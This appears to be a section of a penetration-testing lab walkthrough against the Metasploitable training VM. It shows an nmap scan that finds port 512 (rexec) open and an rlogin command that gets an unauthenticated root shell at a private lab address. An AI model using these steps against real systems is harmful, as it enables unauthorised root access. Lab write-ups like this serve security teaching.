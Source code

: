 ### REXEC (PORT 512) - CHECK

This port is misconfigured, so this "r" services is allowing remote access from hosts.

**Nmap scan**
````
$ nmap -p 512 192.168.56.101
````

*Port 512 // scan results*
````
Nmap scan report for 192.168.56.101 (192.168.56.101)
Host is up (0.00040s latency).

PORT    STATE SERVICE
512/tcp open  exec
````
**Rexec login**
````
$ rlogin -l root 192.168.56.101 

Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have mail.
root@metasploitable:~# 
````
